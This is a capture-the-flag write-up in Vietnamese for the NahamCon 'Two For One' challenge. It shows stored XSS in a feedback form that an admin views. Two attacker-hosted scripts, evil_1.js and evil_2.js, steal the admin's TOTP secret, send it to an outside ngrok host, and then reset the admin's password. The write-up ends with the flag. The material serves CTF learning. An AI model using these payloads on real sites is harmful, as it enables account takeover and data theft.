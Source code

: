 # nahamcom CTF - Two For One

## Description
Need to keep things secure? Try out our safe, the most secure in the world!

## Solution

### Review
- Chall truy cập vào redirect đến register page, thử đăng kí username là admin thì báo lỗi username đã tồn tại => Có lẽ mục đích là trộm cắp gì đó của admin.

- Việc login và register yêu cầu scan QR 2FA để lấy code mỗi lần truy cập

- Quét QR xong, vào có trang chứa secret, có page settings gồm các chức năng: Reset password, Reset2FA và Feedback.

+ Phần reset password chỉ cần nhập mật khẩu muốn đổi + 2FA code

+ Phần reset 2FA chỉ cần scan QR code để đổi mới, khi request QR mới, một request được gửi đi và response về đường link chứa QR tựa như: 

http://challenge.nahamcon.com:31169/reset2fa
```
{"url":"otpauth://totp/Fort%20Knox:2?secret=VOEJIF5EA7UDKTAS&issuer=Fort%20Knox"}
```

+ Phần feedback dính lỗi XSS từ phía admin, triger để test đơn giản: <scirpt src="http://e405-42-112-56-248.ngrok.io/evil.js"></scirpt>

![setting](https://user-images.githubusercontent.com/71699412/167260883-9d76f2d0-b2cd-4469-8037-2896aff45b28.jpg)

### Exploit

**Ý tưởng**: Mục tiêu có lẽ là đánh cắp tài khoản admin để đọc được secret bằng cách lợi dụng XSS make request reset 2FA và nhận lại response trả về chứa QR code. Sau khi có QR code của admin, ta scan và lấy được 2FA code tiếp tục exploit XSS reset password với 2FA code của admin vừa có được. Reset password thành công, ta vào được tài khoản admin đọc secret.

**Step 1**: Đánh cắp QR code của admin qua XSS

Gửi feedback là: 
```html
<script src="http://e405-42-112-56-248.ngrok.io/evil_1.js"></script>
```
Link trên trỏ đến file js ta tự host để exploit XSS, file evil_1.js:

```js
var xhr = new XMLHttpRequest;
xhr.open("POST", "http://challenge.nahamcon.com:31169/reset2fa", true);
xhr.withCredentials = true;
xhr.onload = function() {
	var qr = btoa(xhr.responseText);
	var exit = new XMLHttpRequest;
	exit.open("GET", "http://e405-42-112-56-248.ngrok.io?qr=" + qr);
	exit.send();
};

xhr.send();
```

Từ link trả về, ta decode base64 được:
```json
{"url":"otpauth://totp/Fort%20Knox:admin?secret=L6EFVJEYQOQIZ4N7&issuer=Fort%20Knox"}
```

Ta dùng google `/chart` để generate QR code với secret trên: https://www.google.com/chart?chs=200x200&chld=MJ0&cht=qr&chl=otpauth://totp/Fort%20Knox:admin?secret=L6EFVJEYQOQIZ4N7&issuer=Fort%20Knox

**Step 2**: Với 2FA code, reset password của admin qua XSS

Gửi feedback là: 
```html
<script src="http://e405-42-112-56-248.ngrok.io/evil_2.js"></script>
```

file `evil_2.js`:
```js
var xhr = new XMLHttpRequest();
var url = "http://challenge.nahamcon.com:30299/reset_password";

xhr.open("POST", url, true);
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");

// debug
xhr.onload = function() {
	var status = btoa(xhr.responseText);
	var exit = new XMLHttpRequest;
	exit.open("GET", "http://e405-42-112-56-248.ngrok.io?status=" + status);
	exit.send();
};

// OTP vừa scan từ QR code của admin
xhr.send(JSON.stringify({"otp":"786746","password":"admin","password2":"admin"}));
```
GET /?status=eyJzdWNjZXNzIjp0cnVlfQo= ==> `{"success":true}`

![console](https://user-images.githubusercontent.com/71699412/167260871-c93f5cc3-9bf9-478b-9ff4-fc085499db91.jpg)

Login as admin với admin:admin

**flag**: `flag{96710ea6be916326f96de003c1cc97cb}`
